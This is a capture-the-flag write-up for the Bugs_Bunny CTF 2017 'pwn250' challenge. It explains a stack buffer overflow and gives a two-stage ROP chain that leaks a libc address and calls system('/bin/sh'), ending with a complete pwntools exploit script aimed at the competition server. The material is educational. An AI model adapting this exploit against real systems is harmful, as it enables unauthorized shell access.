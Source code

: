```yaml
---
layout: post
title:  "Bugs_Bunny CTF 2017 - pwn250"
date:   2017-07-31 5:00
categories: CTF
tags: [BugsBunnyCTF2017]
categories: [Pwn]
author: jbz
---
```



This was a pretty standard, stack-based overflow. You can download the file [here](https://github.com/jbzteam/CTF/raw/master/BugsBunnyCTF2017/pwn250/pwn250).

Through `file` and `checksec` we see that it's a 64-bit ELF non-stripped binary, dynamically linked, compiled with only the `NX` mitigation:
```bash
$ file ./pwn250 
./pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
$ checksec ./pwn250 
[*] './pwn250'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary with IDA, we see from the pseudocode that it's a quite simple binary:
```c
int main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 13);
  return 0;
}
ssize_t here()
{
  char buf[128];

  return read(0, buf, 256);
}
```

The vulnerability is clear: there is a `read` call that reads 256 bytes from standard input and writes them in a variable that can contains 128 bytes.

There is NX so we cannot inject and execute shellcode directly. Our strategy then is to create a small ROP chain to call `system` and execute a shell.

First we need to gather the address of `system` from `libc`, and find an address that points to `/bin/sh`. Since the binary is not PIE, we can use one of the functions imported from libc to leak their address. Our target is `read`.

In order to do this we can use the `write` to print the address of `read`. The organizers were kind enough to leave a function called `foryou` with a great gadget:
```asm
.text:0000000000400566 foryou          proc near
.text:0000000000400566                 push    rbp
.text:0000000000400567                 mov     rbp, rsp
.text:000000000040056A                 pop     rdi
.text:000000000040056B                 pop     rsi
.text:000000000040056C                 pop     rdx
.text:000000000040056D                 retn
```

We can use this gadget to prepare the registers before the call to `write`. Our payload/ROP chain to leak the address of `read` looks like this:
```python
payload = ""
payload += "A" * 128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
```

One thing to keep in mind: we include the `mov rbp, rsp` in the ROP chain because if `rbp` contains an invalid address, the subsequent `leave` would fail and the program would crash. With the `mob` we make sure that `rbp` points to a valid address.

After using the gadget to populate the registers, we call `write` and when it returns we go back to the function `here` where we can send our second payload to get the shell.

Once we get the address of `read`, we can calculate the base address for `libc` (which was provided), and consequently the address of `system` and of the string `/bin/sh` in the binary.

Our second payload looks like this:
```python
payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)

```

This second payload first pops the address of `/bin/sh` into `rdi` and then executes `system`.

The full exploit code is below. Sorry guys, I forgot to save the flag :P
```python
from pwn import *

local = 0
if local:
    p = process("./pwn250")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("54.153.19.139", 5255)
    libc = ELF("./libc.so")

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi - standard output
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
p.sendline(payload)

leak_addr = u64(p.recv(8))
libc_base_addr = leak_addr - libc.symbols['read']
system_address = libc_base_addr + libc.symbols['system']
sh_address = libc_base_addr + next(libc.search("/bin/sh\x00"))
log.info("libc_base_addr @ {:08x}".format(libc_base_addr))

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)
p.sendline(payload)

p.sendline("uname -a && id")
p.interactive()

```
